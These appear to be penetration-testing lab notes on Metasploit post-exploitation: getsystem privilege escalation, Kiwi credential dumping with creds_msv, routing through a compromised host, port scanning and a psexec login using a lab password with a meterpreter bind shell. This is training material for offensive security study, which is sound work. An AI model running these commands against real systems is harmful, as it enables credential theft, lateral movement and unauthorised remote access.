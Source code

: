```
use exploit/multi/handler
run
getsystem
```

Now, let's enter load with kiwi as argument to load the Kiwi module. Then, we can use help to display the commands of the Kiwi module. Finally, we'll use creds_msv to retrieve LM7 and NTLM8 credentials.

```
load kiwi
help
creds_msv
```

### Pivoting with Metasploit

first check out ip config
```
ipconfig
```

then reverse shell into meterpreter.
Now that we have a working session on the compromised system, we can background it. To add a route to a network reachable through a compromised host, we can use route add with the network information and session ID that the route applies to. After adding the route, we can display the current routes with route print.

```
bg
route add 172.16.5.0/24 12
route print
```

if we wanted to scan whole network, set rhosts to 172.16.5.0/24 12 . but for sake of time using simplified case
```
use auxiliary/scanner/portscan/tcp 
set RHOSTS 172.16.5.200
set PORTS 445,3389
run
```

since we have NTLM creds from previous section, can use psexec module
```
use exploit/windows/smb/psexec 
set SMBUser luiza
set SMBPass "BoccieDearAeroMeow1!"
set RHOSTS 172.16.5.200
set payload windows/x64/meterpreter/bind_tcp
set LPORT 8000
run
```

As an alternative to adding routes manually, we can use the autoroute post-exploitation module to set up pivot routes through an existing Meterpreter session automatically. 
